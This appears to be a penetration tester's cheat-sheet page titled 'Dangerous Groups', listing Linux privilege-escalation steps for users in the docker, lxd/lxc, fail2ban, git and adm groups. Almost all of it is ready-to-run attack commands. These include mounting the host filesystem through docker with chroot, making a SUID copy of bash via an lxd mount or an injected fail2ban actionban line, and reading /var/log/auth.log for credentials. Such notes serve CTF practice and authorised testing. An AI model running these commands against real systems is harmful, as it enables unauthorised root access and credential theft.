 ```yaml
---
title: Dangerous Groups
parent: Method
layout: default
nav_order: 7
---
```


## docker
1. If you run `id` and notice you are part of docker group can try this.
2. Check where is the docker socket: `find / -name docker.sock 2>/dev/null`\
   (Check if it is at /run/docker.sock)
3. List all the images available: `docker images`
4. Mount the disk and has root permission (prefer ubuntu, put in imagename): \
   `docker run -it -v /:/host/ imagename chroot /host/ bash`
5. (Alternatively) can run the below:\
   `docker run -it --rm --pid=host --privileged ubuntu bash`\
   OR\
   `docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash`
6. If docker is not at /run/docker.sock, use the `-H` parameter, for example:\
   `-H unix:///path/to/docker.sock`

## lxd / lxc
1. Use `id` and if your user is in either lxd or lxc group, can priv esc.
2. Follow here: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
3. Browse to /mnt/root to see the actual filesystem mounted as root.
4. Copy bash and set SUID:
   `cp /mnt/root/bin/bash /mnt/root/tmp/`
   `chmod 7777 /mnt/root/tmp/bash`
5. Use `exit` to exit from container and run `/tmp/bash -p` to get root

## fail2ban
1. Check if you have write access to the following:\
   `ls -la /etc/fail2ban/action.d/iptables-multiport.conf`
2. If yes, use the following:\
   `echo "actionban = cp /bin/bash /tmp/rootbash;chown root /tmp/rootbash;chmod +s /tmp/rootbash" >> ./iptables-multiport.conf`
3. Attempt to login with wrong credentials using ssh / other action that trigger ban.
4. run `/tmp/rootbash -p`

## git
1. If you are able to SSH into an account with git access, can push changes to the local git. First:\
   `GIT_SSH_COMMAND='ssh -i id_rsa -p PORT' git clone git@IP:/gitpathname`
2. Change directory into the git path: `cd gitpathname`
3. Configure the identity of Git:
   `git config --global user.name "kali"`
   `git config --global user.email "kali@kali.(none)"`
4. Make whatever changes to the file (remember to `chmod+x` for executables)
5. Add and commit the change:\
   `git add -A`\
   `git commit -m "pwn"`
6. Push the change:\
   `GIT_SSH_COMMAND='ssh -i ~/id_rsa -p PORT' git push origin master`

## adm
Will usually have access to read logs

1. Check the permission:\
   `ls -la /var/log/auth.log`
2. Read to see if got any credentials that can be used:\
   `cat /var/log/auth.log`